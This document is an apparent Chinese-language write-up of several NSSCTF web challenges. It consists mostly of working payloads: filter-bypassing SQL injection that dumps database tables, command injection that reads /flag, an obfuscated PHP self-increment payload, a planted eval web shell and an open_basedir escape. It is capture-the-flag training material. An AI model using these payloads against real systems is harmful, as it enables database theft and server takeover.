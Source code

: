 
## sql

###  按照标题参数wllm
?wllm=1 -- 正常
?wllm=1' -- 报错
?wllm=1'%23 -- 正常
?wllm=-1'or 1=1%23 -- 发现有过滤

### 测试过滤
空格，等号
空格=>`/**/`
等号=>like


### 注入
```sql
# 测试长度
?wlmm=1'order/**/by/**/3%23 -- 正常
?wlmm=1'order/**/by/**/4%23 -- 错误
-- 测试长度为3
# 测试回显
?wlmm=-1'union/**/select/**/1,2,3%23 # 2,3回显位置
# 查库
?wllm=-1'union/**/select/**/1,2,database()%23 # test_db
# 查表
?wllm=-1'union/**/select/**/1,2,group_concat(table_name)/**/from/**/informa
tion_schema.tables/**/where/**/table_schema/**/like/**/'test_db'%23
-- LTLT_flag,users
# 查列
?wllm=-1'union/**/select/**/1,2,group_concat(column_name)/**/from/**/inform
ation_schema.columns/**/where/**/table_schema/**/like/**/'test_db'%23
-- id,flag,id,username
# 查内容
?wllm=-1'union/**/select/**/1,2,group_concat(flag)/**/from/**/test_db.LTLT_
flag%23
-- NSSCTF{e99758c1-d31b

# 位数长度不足
使用截断函数进行绕过，substr，right，REVERSE 被过滤（测试出来的），只能用mid
# mid截取，因为回显只能有20个，所以20，一组截取
wllm=-1'union/**/select/**/1,2,mid(group_concat(flag),20,20)/**/from/**/tes
t_db.LTLT_flag%23
# 需要读三组
NSSCTF{e99758c1-d31b-4497-8d44-abfe84caa0ed}
```



## finalrce
![[Pasted image 20231207115411.png]]


用到tee命令：
Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。
```
?url=tac /flllll\aaaaaaggggggg |tee 3.txt
```



## numgame

![[Pasted image 20231208100218.png]]

post传入：p=nss::ctf    提示类是nss2，使用nss2::ctf，查看源码获取到flag




## ez_sql

or被过滤，影响了information，order，等等要用的东西
union被过滤，双写 ununionion绕过
空格被过滤，`/**/`绕过
注释符--+无法使用，使用#的编码，%23
```sql
>
nss=-1'/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema=database()/**/limit/**/1,1%23  
< Flag: 2  
This is true flag: NSS_tb,users   
>
nss=-1'/**/ununionion/**/select/**/1,2,group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='NSS_tb'/**/limit/**/1,1%23  
  
< Flag: 2  
This is true flag: id,Secr3t,flll444g  
  
  
> nss=-1'/**/ununionion/**/select/**/id,group_concat(Secr3t),group_concat(flll444g)/**/from/**/NSS_db.NSS_tb/**/limit/**/1,1%23  
  
< Flag: NSSCTF{b3c1613c-6acb-46f4-9510-f3184bd69eb5}  
This is true flag: NSSCTF{I_d0nt_want_t0_w4ke_up}
```



## hardRCE3

取反和异或被禁用了，只有尝试下自增
get传
```
%24_%3d%5b%5d%3b%24_%3d%40%22%24_%22%3b%24_%3d%24_%5b’!‘%3d%3d’%40’%5d%3b%24___%3d%24_%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24____%3d’_'%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24_%3d%24%24____%3b%24___(%24_%5b_%5d)%3b
```
![[Pasted image 20231208141112.png]]
```
发现system,exec,shell_exec,popen,proc_open,passthru被禁用 .

但是可以用file_put_contents(,)

file_put_contents函数 第一个参数是文件名，第二个参数是内容。

所以 构造: _=file_put_contents("1.php","<?php evVVVal($_POST['shell']); ?>");传入🐎

然后访问/1.php，密码shell连接。

```
但是连接后没有权限
重新写个poc
```php
<?php
print_r(ini_get('open_basedir').'<br>');
mkdir('test');
chdir('test');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
echo file_get_contents('/flag');
print(1);
?>

#poc:
_=file_put_contents('5.php',"<?php print_r(ini_get('open_basedir').'<br>');mkdir('test');chdir('test');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/flag');print(1);?>")
```


## funnyphp

![[Pasted image 20231208142043.png]]

可知：get:   num=9e9&str=NSSNSSCTFCTF
post:  md5_1=QNKCDZO&md5_2=240610708



## babysql
联合注入：
```sql
username=1'union/**/select/**/(select/**/group_concat(flag)/**/from/**/flag)/**/'
```



## PINGpingping
![[Pasted image 20231208163424.png]]
### payload
```
php解析问题  
空格和点会解析为下划线（_)  
所以传入参数时会解析为Ping_ip_exe导致传参失败，查找资料在8版本一下[会解析为_且会导致解析错误，使后续符号不继续解析  
Ping[ip.exe  
再进行后续flag读取

Ping[ip.exe=|cat /flag
```



## 一键连接

![[Pasted image 20231208164328.png]]

payload
```
?md5_1[]=1&md5_2[]=2&sha1_1[]=1&sha1_2[]=2&new_player=data://text/plain,Welcome to NSSCTF!!!
```


